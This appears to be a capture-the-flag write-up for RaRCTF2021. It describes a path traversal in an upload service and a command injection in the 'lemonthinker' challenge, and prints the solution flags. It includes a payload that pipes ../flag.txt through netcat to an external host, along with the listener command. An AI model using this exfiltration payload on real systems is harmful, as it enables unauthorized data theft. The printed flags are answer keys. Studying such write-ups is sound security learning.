 # RaRCTF2021

## verybabyrev


## Secure Uploader

After source code analysis we find the vulnerable part of the application:

![Capture](https://user-images.githubusercontent.com/52963102/129102595-7268dcfd-2b91-4d49-9817-e9eeae7121f3.PNG)

From the docs we know that _os.path.join_ discards all previous parts if a path segment begins with / so we just intercept the traffic with BurpSuite and change the filename:

![Capture](https://user-images.githubusercontent.com/52963102/129102789-d6e6ce84-1b61-4047-82f4-242d7864128d.PNG)

<code>rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}</code>

## lemonthinker

During the CTF I managed to figure out the vulnerable part of the application, but after pondering on it for around 5h I didn't get too much further than that. So from the source code we see that our input on the website isn't properly validated, the only thing the code does is remove double quotes:

![1](https://user-images.githubusercontent.com/52963102/129076307-6eab48f9-d55d-40a2-a940-fdb651f35ca6.PNG)

Honestly I'm not 100% sure why the program actually executes the input code, because it's only supposed to draw it on the image, but an example of printing is here:

![1](https://user-images.githubusercontent.com/52963102/129077222-d454259f-fa0e-4cde-b32d-89bf44fb55c6.PNG)

(_test.py_ and _test2.py_ used for testing can be found in the repo)

Now the flag itself is in _../flag.txt_ and because of the _noleek.png_ being a thing, we can't just cat the flag out. A clever solution that I found was using netcat on your device with portforwarding and then using this as the injection:

``` bash
$(rev ../flag.txt | nc <EXTERNAL_IP> <PORT>)
```
	
And then opening the port with <code>nc -lvp PORT</code> and forwarding it we get the flag:

<code>rarctf{b451c-c0mm4nd_1nj3ct10n_f0r-y0u_4nd_y0ur-l3m0nth1nk3rs_d8d21128bf}</code>

## Fancy Button Generator
